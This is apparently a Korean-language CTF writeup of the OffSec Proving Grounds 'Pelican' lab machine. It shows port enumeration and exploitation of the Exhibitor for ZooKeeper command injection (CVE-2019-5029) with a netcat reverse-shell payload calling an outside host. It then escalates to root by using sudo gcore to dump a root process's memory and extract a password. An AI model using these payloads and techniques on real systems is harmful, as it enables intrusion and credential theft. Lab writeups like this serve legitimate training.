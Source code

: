 ```yaml
---

title: "Proving grounds Practice: Pelican 문제풀이"

excerpt: "Offsec proving grounds practice linux machine writeup"

categories: pg_practice

tags:

- CTF

- Offsec labs

- OSCP

- Writeup

- Linux

- pg-practice

typora-root-url: ../../

date: 2025-08-29

last_modified_at: 2025-08-29

---
```

## Enumeration
### RustScan + Nmap
```bash
─$ rustscan -a 192.168.107.98
[ . . . ]

Open 192.168.107.98:22                                                         
Open 192.168.107.98:139                                                        
Open 192.168.107.98:445                                                                                                                                       
Open 192.168.107.98:631                                                                 
Open 192.168.107.98:2222                                                                
Open 192.168.107.98:2181
Open 192.168.107.98:8081                                                       
Open 192.168.107.98:8080                                                       
Open 192.168.107.98:39605    

---

─$ nmap -p 22,139,445,631,2222,2181,8081,8080,39605 -Pn -n --open -sV -sC 192.168.107.98 -oA nmapDetailed                                                    
[ . . . ]

PORT      STATE SERVICE     VERSION                                                                                                                           
22/tcp    open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)                                                                                       
445/tcp   open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)                                                                                    
631/tcp   open  ipp         CUPS 2.2                                                                                                                          
| http-methods:                                                                                                                                               
|_  Potentially risky methods: PUT                                                                                                                            
|_http-title: Forbidden - CUPS v2.2.10                                                                                                                        
|_http-server-header: CUPS/2.2 IPP/2.1                                                                                                                        
2181/tcp  open  zookeeper   Zookeeper 3.4.6-1569965 (Built on 02/20/2014)                                                                                     
2222/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
8080/tcp  open  http        Jetty 1.0                                                                                                                         
|_http-server-header: Jetty(1.0)                                                                                                                              
|_http-title: Error 404 Not Found                                                                                                                             
8081/tcp  open  http        nginx 1.14.2                                                                                                                      
|_http-server-header: nginx/1.14.2                                                                                                                            
|_http-title: Did not follow redirect to http://192.168.107.98:8080/exhibitor/v1/ui/index.html                                                                
39605/tcp open  java-rmi    Java RMI                                                                                                                          
Service Info: Host: PELICAN; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### SMB
**enum4linux**
```powershell
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\charles (Local User)

[+] Enumerating users using SID S-1-5-32 and logon username '', password ''

S-1-5-32-544 BUILTIN\Administrators (Local Group)
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)
```

`charles` 유저 발견

### Port: 8080
(http://192.168.107.98:8080/) 접속해보면 `Exhibitor for ZooKeeper` 페이지가 나온다.

Google에 `Zookeeper 3.4.6 exploit`을 검색하면 해당 버전에서 사용할 수 있는 exploit이 존재한다.

## Vulnerability Analysis
### CVE-2019-5029
- 취약한 소프트웨어: Exhibitor Web UI 버전 1.0.9부터 1.7.1까지
- 취약점 유형: OS 명령어 주입 (Command Injection)
- 취약점 위치: Config Editor (설정 편집기) 내 입력값 처리 부문
- 위험 수준: 치명적 (CVSS 9.8)
- 취약점 내용:
  - 공격자가 백틱(\`)이나 \`$()\`로 감싼 임의의 쉘 명령어를 설정 편집기에 삽입할 수 있음
  - 이 명령어는 Exhibitor 프로세스가 ZooKeeper 실행 시에 실행됨
  - 공격자는 Exhibitor 프로세스 권한으로 임의의 명령을 실행 가능
  - 원격에서 인증 없이 공격 가능


## Exploitation
[Exploit-DB]https://www.exploit-db.com/exploits/48654

48654 exploit 내용
```javascript
The steps to exploit it from a web browser:

    Open the Exhibitor Web UI and click on the Config tab, then flip the Editing switch to ON

    In the “java.env script” field, enter any command surrounded by $() or ``, for example, for a simple reverse shell:

    $(/bin/nc -e /bin/sh 10.0.0.64 4444 &)
    Click Commit > All At Once > OK
    The command may take up to a minute to execute.
```
- exploit의 설명대로 진행했다.
![reverseshell](../../images/2025-08-29-pelican/image.png)

**reverse shell upgrade**
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")' 
ctrl+z 
stty raw -echo; fg 
reset 
export SHELL=bash
export TERM=xterm-256color
```

## Privilege Escalation
```bash
charles@pelican:/opt/zookeeper$ sudo -l
Matching Defaults entries for charles on pelican:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on pelican:
    (ALL) NOPASSWD: /usr/bin/gcore
```

[GTFObins - gcore](https://gtfobins.github.io/gtfobins/gcore/)

---

**What is gcore ?**
- `/usr/bin/gcore` : 실행 중인 프로세스의 코어 덤프를 생성하는 도구. 프로세스를 중단하지 않고 메모리 덤프 파일을 만들 수 있다.
  - `-a` : 프로세스의 모든 메모리 매핑(메모리 영역)을 포함해서 덤프를 생성
  - `-o /home/charles/output` : 덤프 파일의 이름 접두어(prefix)를 지정한다. 결과 파일은 `/home/charles/output.493`처럼 생성된다.

---
Post Enumeration
```bash
# SUID Sticky Bit 설정되어 있는 파일 찾기
charles@pelican:/opt/zookeeper$ find / -type f -perm -4000 2>/dev/null
[ . . . ]

/usr/bin/password-store

# root 유저로 실행되고 있는 프로세스 찾기
charles@pelican:/opt/zookeeper$ ps faux | grep -i root
root       513  0.0  0.0   2276   112 ?        Ss   Aug28   0:00 /usr/bin/password-store

# password-store PID 검색
charles@pelican:/opt/zookeeper$ pgrep password-store         
513
```

use gcore
```bash
# gcore 이용해서 메모리 매핑 덤프 생성
charles@pelican:~$ sudo -u root /usr/bin/gcore -a -o /home/charles/output 513
0x00007f971bd1c6f4 in __GI___nanosleep (requested_time=requested_time@entry=0x7ffc3d7a2c80, remaining=remaining@entry=0x7ffc3d7a2c80) at ../sysdeps/unix/sysv/
linux/nanosleep.c:28                                                                                                                                          
28      ../sysdeps/unix/sysv/linux/nanosleep.c: No such file or directory.                                                                                    
Saved corefile /home/charles/output.513                                                                                                                       
[Inferior 1 (process 513) detached]   
```
- `sudo -u root` : root 권한으로 명령을 실행한다는 의미.
- `/usr/bin/gcore` : 실행 중인 프로세스의 코어 덤프를 생성하는 도구. 프로세스를 중단하지 않고 메모리 덤프 파일을 만들 수 있다.
- `-a` : 프로세스의 모든 메모리 매핑(메모리 영역)을 포함해서 덤프를 생성한다.
- `-o /home/charles/output` : 덤프 파일의 이름 접두어(prefix)를 지정합니다. 결과 파일은 `/home/charles/output.513`처럼 생성된다.
- `513` : 덤프를 생성할 프로세스의 PID


```bash
# output 파일 읽기
charles@pelican:~$ strings output.513 
[ . . . ]

001 Password: root:
ClogKingpinInning731

# 획득한 패스워드로 root 유저 변경 
charles@pelican:~$ su -
Password: 
root@pelican:~# id
uid=0(root) gid=0(root) groups=0(root)
```
